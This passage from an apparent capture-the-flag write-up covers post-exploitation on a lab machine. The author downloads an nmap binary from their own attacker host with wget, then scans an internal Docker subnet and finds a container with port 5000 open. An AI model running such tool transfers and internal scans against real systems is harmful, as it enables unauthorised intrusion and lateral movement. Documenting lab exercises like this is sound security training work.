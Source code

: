 To search for docker containers I decided to transfer `nmap` onto the box to scan the docker subnet. 

```
james@trickster:/tmp$ wget 10.10.14.3/nmap
--2024-09-22 23:44:00--  http://10.10.14.3/nmap
Connecting to 10.10.14.3:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 5944464 (5.7M) [application/octet-stream]
Saving to: ‘nmap’

nmap                    100%[============================>]   5.67M  2.82MB/s    in 2.0s    

2024-09-22 23:44:02 (2.82 MB/s) - ‘nmap’ saved [5944464/5944464]
```

# Scanning Docker Subnet

The below snippet shows the results of scanning the dockers subnet. It discovered two hosts. One of the hosts looks like the system I already have access to. The second host is new but the default scan does not find any open ports. Further enumeration will be required.

```
james@trickster:/tmp$ chmod +x nmap 
james@trickster:/tmp$ ./nmap 172.17.0.0/24 

Starting Nmap 6.49BETA1 ( http://nmap.org ) at 2024-09-22 23:45 UTC
Unable to find nmap-services!  Resorting to /etc/services
Cannot find nmap-payloads. UDP payloads are disabled.
Nmap scan report for 172.17.0.1
Host is up (0.00056s latency).
Not shown: 1154 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap scan report for 172.17.0.2
Host is up (0.00061s latency).
All 1156 scanned ports on 172.17.0.2 are closed

Nmap done: 256 IP addresses (2 hosts up) scanned in 16.17 seconds
james@trickster:/tmp$ 
```

# Scanning 172.17.0.2

A full port scan on the newly discovered docker container shows that port 5000 is open. Port 5000 is commonly used to host web applications.

```
james@trickster:/tmp$ ./nmap 172.17.0.2 -p- 

Starting Nmap 6.49BETA1 ( http://nmap.org ) at 2024-09-22 23:46 UTC
Unable to find nmap-services!  Resorting to /etc/services
Cannot find nmap-payloads. UDP payloads are disabled.
Nmap scan report for 172.17.0.2
Host is up (0.00068s latency).
Not shown: 65534 closed ports
PORT     STATE SERVICE
5000/tcp open  unknown
```
